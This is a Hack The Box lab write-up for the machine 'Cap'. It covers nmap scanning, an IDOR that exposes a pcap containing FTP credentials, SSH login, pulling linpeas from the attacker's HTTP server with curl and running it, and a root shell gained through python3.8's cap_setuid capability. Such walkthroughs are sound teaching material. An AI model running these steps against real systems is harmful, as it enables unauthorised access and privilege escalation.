

# Workshop

download openvpn file from: connect to htb > machines > openvpn (select EU server)

connect to vpn:

```jsx
sudo openvpn <lab_file.ovpn>
```

machine ip (replacce with ip of your instance)

```jsx
10.10.10.245
```

nmap scan:

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.10.245 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 09:04 EDT
Nmap scan report for 10.10.10.245
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 12 Mar 2025 13:01:04 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 12 Mar 2025 13:00:59 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 12 Mar 2025 13:00:59 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=3/12%Time=67D1866A%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Wed,\x2012\x20Mar\x202025\x2013:00:59\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,
SF:\x2012\x20Mar\x202025\x2013:00:59\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Wed,\x2012\x20Mar\x202025\x2013:01:04\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.21 seconds
                          
```

port 80 is open with http

this means we can access a website

access the website through putting the machine ip into the URL box:



there is a user ‘Nathan’ logged in

none of the dropdown links on the profile are active:


on the menu on the left side of the screen, there are 4 accessible links

if you click on the ‘security snapshot’ tab multiple times, then the number after /data/ changes

 


this can be a sign of an IDOR (indirect object reference) vulnerability, if there are no authorization checks around the requests

to test this, we can change the number at the end an monitor the results

change the number in the URL to 0:


this returns a valid pcap file

we can open this in wireshark:


open statstics > protocol hierarchy:


we can see FTP packets were captured

since FTP is a clear-text protocol, we can view the information sent across in clear-text

we can filter by ‘ftp’ traffic:


this shows the login creds for user ‘Nathan’

we can use these to connect to ssh as ‘nathan’

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 12 13:26:02 UTC 2025

  System load:  0.0               Processes:             230
  Usage of /:   37.0% of 8.73GB   Users logged in:       1
  Memory usage: 39%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 4 zombie processes.

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 12 11:16:50 2025 from 10.10.14.86
nathan@cap:~$ ls
linpeas.sh  python3.8  snap  user.txt                                                                        
nathan@cap:~$ cat user.txt    
```

use cat read the user.txt file for flag

root:

sudo -l doesn’t work so we want to upload linpeas to check what’s running

download linpeas from github onto your host machine:

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--       0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     100  820k  100  820k    0     0  1113k      0 --:--:-- --:--:-- --:--:-- 1702k

```

next we need to upload it to the ssh shell

start a python http server on your desktop so you can retrieve the linpeas file from the ssh shell:

```jsx
python3 -m http.server 80
```

```jsx
nathan@cap:~$ curl http://10.10.14.103/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  820k  100  820k    0     0  1644k      0 --:--:-- --:--:-- --:--:-- 1644k
nathan@cap:~$ ./linpeas.sh
```

find ‘files with capabilities’ section of output:

```jsx
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

this one is highlighted with permission of cap_setuid, cap_net_bind_service:

```jsx
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

according to documentation, cat_setuid allows the process to gain setuid privileges without the SUID bit set

https://man7.org/linux/man-pages/man7/capabilities.7.html

the following python commands will result in a root shell:

```prolog
import os
os.setuid(0)
os.system("/bin/bash")
```

create a /tmp folder and run start python console:

```jsx
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:/tmp# 
```

use cat to read root flag:

```jsx
root@cap:/tmp# cat /root/root.txt
```

finished